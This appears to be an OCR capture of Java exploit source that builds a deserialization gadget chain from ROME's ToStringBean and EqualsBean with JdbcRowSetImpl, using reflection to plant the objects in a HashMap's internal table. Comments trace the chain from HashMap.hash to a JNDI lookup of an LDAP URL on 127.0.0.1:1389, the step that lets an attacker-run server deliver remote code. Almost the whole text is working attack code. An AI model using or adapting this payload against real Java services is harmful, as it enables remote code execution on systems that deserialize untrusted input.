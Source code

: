 ```java
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Object JDBCInject() throws Exception {

        // When deserializing, ToStringBean.toString will be called, triggering JdbcRowSetImpl.getDatabaseMetaData ->
JdbcRowSetImpl.connect -> Context.lookup.
        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(jndiUrl);
        jdbcRowSet.setMatchColumn("foo");
        return jdbcRowSet;
    }

    public static void main(String[] args ) throws Exception {

        // EqualsBean.beanHashCode will be called during deserialization, triggering ToStringBean.toString.
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, JDBCInject());

        // HashMap.hash will be called during deserialization, triggering EqualsBean.hashCode -> EqualsBean.beanHashCode.
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        // HashMap.put -> HashMap.putVal -> HashMap.hash
        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, equalsBean, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, equalsBean, equalsBean, null));
        setFieldValue(hashMap, "table", tbl);
```